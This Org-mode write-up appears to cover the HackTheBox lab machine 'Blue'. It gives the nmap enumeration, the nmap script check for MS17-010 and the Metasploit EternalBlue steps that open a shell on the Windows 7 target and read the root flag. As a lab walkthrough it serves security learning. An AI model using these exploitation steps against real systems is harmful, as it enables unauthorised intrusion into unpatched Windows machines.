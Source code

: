 #+title: Blue
#+author: Alex Crom
#+options: H: 2

* Synopsis
Take control over the windows computer and find user- en root:flags:.
Therefore find exploit ms17-010 and run it.

** :scroll: TL:DR :scroll:
Get **Privilege Escalation** on a **windows 7 Porfessional 7601 Service Pack 1 computer**.

* :rocket: Getting started :rocket:
We spawn the machine by clicking the button 

[[../img/blue_ip.png]]

and add the given ~ip~ to our ~/etc/hosts~ file:
#+begin_src bash
echo "10.129.231.168 blue.htb" | sudo tee -a /etc/hosts

#+end_src

* Enumeration
We start as always with a ~nmap~ scan:
#+begin_src bash
nmap -sV -sC -oA blue blue.htb

#+end_src
wich result in a interesting open port:

[[../img/blue_port_445.png]]


If we scan the port on vulernabilities:
#+begin_src bash
nmap --script smb-vuln-ms17-010 -p445 blue.htb

#+end_src
../img/blue_nmap_ms17-010.png)
it revails a vulnerability called ms17-010 in Microsoft SMBv1 accorring to [[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143][CVE-2017-0143]].

* Expliotation
With ~msfconsole~ we can search for an exploit:

1. type ~msfconsole~ to start metasploit;
2. ~search ms17-010~;
3. use 0;
4. show options gives the options for configuration;
5. ~set RHOSTS Blue.htb~
6. ~set LHOSTS 10.10....~
7. ~expliot~
8. ~shell~
9. ~whoami~
10. ~cd \Users\Administrator\Desktop~
11. ~type root.txt~

* :mortar_board: Lessons learned :mortar_board:
1. How to use ~msfconsole~;
2. How to explicit scan with ~nmap~ for a vulnerability scan;
3. Windows does not support linux syntax :nerd:
